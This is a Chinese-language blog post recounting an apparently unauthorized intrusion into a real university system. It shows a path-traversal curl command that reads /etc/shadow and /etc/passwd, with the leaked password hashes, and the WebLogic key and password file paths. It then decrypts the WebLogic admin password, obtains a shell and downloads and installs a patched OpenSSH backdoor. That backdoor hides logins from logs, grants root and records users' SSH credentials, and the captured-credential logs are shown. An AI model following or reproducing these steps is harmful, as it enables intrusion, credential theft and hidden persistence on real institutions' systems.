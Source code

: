 ```yaml
---
layout: post
title: "从任意文件下载到系统 root 权限"
description: "Hacking"
headline: 
modified: 2015-10-21
category: Hacking
tags: [Hacking]
imagefeature: 
mathjax: 
chart: 
author: Ricter
comments: true
featured: true
---
```



# [从任意文件下载到系统 root 权限]()


其实蛮没有技术含量。我在两年前遇到这个任意文件下载，却不知道该怎么做，到现在渗透经验足了，拿下了，然后记录一下这一个过程，就这样qwq。

## 0x01

目标站是学校内的一个某系统，存在一个 root 权限的任意文件下载漏洞。年轻的时候我用 AWVS 扫到，很开心。但是我只知道下载 `/etc/passwd` 和 `/etc/shadow`，然后去 cmd5 破解了个密码。

     owo &gt; ~ curl "http://xxxxx.cqupt.edu.cn/index.do?method=download&amp;fileName=../../../../../../../../../../../../../../../../../../etc/shadow" | grep "\$1"
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  1450    0  1450    0     0   167k      0 --:--:-- --:--:-- --:--:--  177k
    root:$1$skHsra.H$231VnTWRAH5IZu/ZprShG1:15355:0:99999:7:::
    noc:$1$VfzOW6qf$5bFZHbF9kffKjWNNRRS.t1:15050:0:99999:7:::
    upload:$1$6l1DPvdr$9n35rMlJ.Y0K9T7LTTt4e.:15869:0:99999:7:::
    save:$1$MtVRP4E2$VR2c3KpZzxMXyrtbx5PKC1:15041:0:99999:7:::
    cisco:$1$imx62ClO$JoeFAGinKdzZFMZ1qmam20:15050:0:99999:7:::
    log:$1$G0ukagUJ$WGon1ynxgRMKxY1mY6HUa.:15105:0:99999:7:::
    `

    得到了 log 的密码是 log，save 的密码是 save。但是，可以破解密码都不能登录。

    ` owo &gt; ~ curl "http://xxxxx.cqupt.edu.cn/index.do?method=download&amp;fileName=../../../../../../../../../../../../../../../../../../etc/passwd" | grep bash
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  2061    0  2061    0     0   228k      0 --:--:-- --:--:-- --:--:--  251k
    root:x:0:0:root:/root:/bin/bash
    weblogic:x:501:501::/home/weblogic:/bin/bash
    cisco:x:504:504::/home/cisco:/bin/bash
    `

    当时只到这里，啊，不知道怎么做了，GG，该干嘛干嘛。还是太年轻qwq。

    其实还有很多东西可以下载，比如 `/root/.bash_history`，看了一遍，拿到了 Web 目录：`/home/web/jsp/bea/user_projects/domains/xxx`。

    这个站其实是 weblogic 搭建的，比较蛋碎的是，我又不知道 weblogic 的密码，也不知道存放密码的路径。 

    #### 题外话

    其实如果经验足够的话，应该可以知道密钥和密码文件存放的路径。

    密钥路径：/home/web/jsp/bea/user_projects/domains/DOMAIN_NAME/security/SerializedSystemIni.dat 

    密码文件路径：/home/web/jsp/bea/user_projects/domains/DOMAIN_NAME/servers/APP_NAME/security/boot.properties

    其中大部分信息都在 .bash_history 得到了，不过我还是不知道在哪，真是残念。

    #### 题外话结束

    但是我机智的用 nmap 扫了下端口，发现 FTP 是 vsftpd。vsftpd 这么 6666，没做 chroot 的情况下可以各种看目录，而且用系统帐号就能登陆上。虽然是 `/sbin/nologin/`，但是 vsftp 还是能用的。上去之后翻了下目录，找到了加密后的密码还有加密密码的密钥。

    ![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/4.PNG) 

    ## 0x02

    根据 [http://drops.wooyun.org/tips/349](http://drops.wooyun.org/tips/349)，可以造怎么去破解密码。里面给出的密码破解的 java 脚本依赖 weblogic 的包，我并不想在本地安装 weblogic，于是去万能的 Github 找了下，找到这个程序：[https://github.com/NetSPI/WebLogicPasswordDecryptor](https://github.com/NetSPI/WebLogicPasswordDecryptor)

    用法如下： 

    ` owo &gt; git clone https://github.com/NetSPI/WebLogicPasswordDecryptor
    Cloning into 'WebLogicPasswordDecryptor'...
    remote: Counting objects: 31, done.
    remote: Total 31 (delta 0), reused 0 (delta 0), pack-reused 31
    Unpacking objects: 100% (31/31), done.
    Checking connectivity... done.
     owo &gt; tmp cd WebLogicPasswordDecryptor/
     owo &gt; WebLogicPasswordDecryptor git:(master) javac WebLogicPasswordDecryptor.java
    WebLogicPasswordDecryptor.java:2: 警告: BASE64Decoder是内部专用 API, 可能会在未来发行版中删除
    import sun.misc.BASE64Decoder;
                   ^
    WebLogicPasswordDecryptor.java:41: 警告: BASE64Decoder是内部专用 API, 可能会在未来发行版中删除
            byte[] encryptedPassword1 = new BASE64Decoder().decodeBuffer(ciphertext);
                                            ^
    WebLogicPasswordDecryptor.java:95: 警告: BASE64Decoder是内部专用 API, 可能会在未来发行版中删除
            byte[] encryptedPassword1 = new BASE64Decoder().decodeBuffer(ciphertext);
                                            ^
    3 个警告
     pwq &gt; WebLogicPasswordDecryptor git:(master) ? java WebLogicPasswordDecryptor /tmp/SerializedSystemIni.dat "{3DES}0/rNaowFnaz32NHhiOKRmg=="
    DCaW2uXXX
     owo &gt; WebLogicPasswordDecryptor git:(master) ?
    `

    话说如果编译的时候发现缺少什么依赖包，可以去万能的 Google 搞定，我就不提了。 

    既然密码破解出来了，那就去 getshell 吧。

    ![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/2.PNG)

    ![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/1.PNG)

    ## 0x03

    拿到之后，并不知道密码，心里很纠结。

    因为这里的 cisco 账号也在某 mail.cqupt.edu.cn 中出现了，所以，我感觉还是要上一个比较牛逼的 backdoor。 

    问了我猫总之后，猫总推荐了我一个 openssh 的 backdoor。地址在这：[http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz](http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz) 

    首先 wget 下来，然后看一下 README 和 INSTALL。

    `[root@xxx openssh-5.9p1.patch]# ls
    INSTALL  LICENSE  openssh-5.9p1  openssh-5.9p1.tar.gz  README  sshbd5.9p1.diff  ssh_integrity_checker.sh
    [root@oa openssh-5.9p1.patch]# cat README
    Read LICENSE before redistributing
    Read INSTALL to install backdoor
    ssh_integrity_checker is tool for sysadmin to check possible OpenSSH infection

    FEATURES:
    - Isn't logged in lastlog, wtmp, utmp
    - Your IP isn't logged in /var/log/message and /var/log/secure (RHEL/CentOS)
    - Your IP isn't logged in /var/log/syslog and /var/log/auth.log (Ubuntu/Debian)
    - Record incoming/outgoing user and password for SSH login
    - Instant root access and bypass PermitRootLogin on sshd_config
    - Also support for SSH with pam enabled
    [root@oa openssh-5.9p1.patch]# cat INSTALL

    -- QUICKSTART

    wget http://mirror.corbina.net/pub/OpenBSD/OpenSSH/portable/openssh-5.9p1.tar.gz
    tar zxvf openssh-5.9p1.tar.gz
    cp sshbd5.5p1.diff openssh-5.9p1/
    cd openssh-5.9p1
    patch &lt; sshbd5.9p1.diff

    modify version.h
    modify secret password and log path on includes.h
    make sure you already install zlib, openssl, kerberos5, and libpam development header file

    ./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
    make &amp;&amp; make install &amp;&amp; service ssh restart (debian/ubuntu)
    make &amp;&amp; make install &amp;&amp; service sshd restart (redhat/centos)
    [root@xxx openssh-5.9p1.patch]#
    `

    根据提示要安装一下 zlib-devel、openssl-devel、pam-devel、krb5-lib 之类的包。

    接着下载 openssh-5.9p1 的源代码，patch 掉，然后修改 `includes.h`，在 `includes.h` 的最下面。

    ![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/3.PNG) 

    接着 `./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5`，然后 `make &amp;&amp; make install`。 

    重启 sshd 服务后，可以记录账号密码了。ssh 进来的在 `/tmp/ilog`，ssh 出去的在 `/tmp/olog`。

    `[root@xxx tmp]# cat ilog
    user:password --&gt; log:log
    user:password --&gt; log:log
    user:password --&gt; log:log
    [root@oa tmp]# cat olog
    user:password@host --&gt; root:asd@localhost
    [root@xxx tmp]#

接下来就是慢慢的等待了。

        
        

        
        
            
        
    
